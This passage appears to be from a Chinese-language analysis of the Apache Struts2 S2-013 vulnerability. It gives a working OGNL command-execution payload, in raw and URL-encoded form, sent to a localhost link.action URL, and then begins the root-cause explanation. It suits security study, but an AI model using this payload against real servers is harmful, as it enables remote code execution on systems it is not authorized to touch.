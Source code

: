 


然后命令执行的payload

```
${#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(+new java.lang.String(#d)),#out.close()}
```

编码后提交

```
http://localhost:8888/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23out.println%28%2bnew%20java.lang.String%28%23d%29%29%2C%23out.close%28%29%7D
```

![](Struts2-命令-代码执行漏洞分析系列-S2-013\3.png)



# 漏洞分析

网上关于S2-013的分析将它的形成归结于

>  org.apache.struts2.views.uti.DefaultUrlHelper这个class的parseQueryString方法
>
> 在`String translatedParamValue = translateAndDecode(paramValue);`的时候解析了ONGL从而造成的代码执行
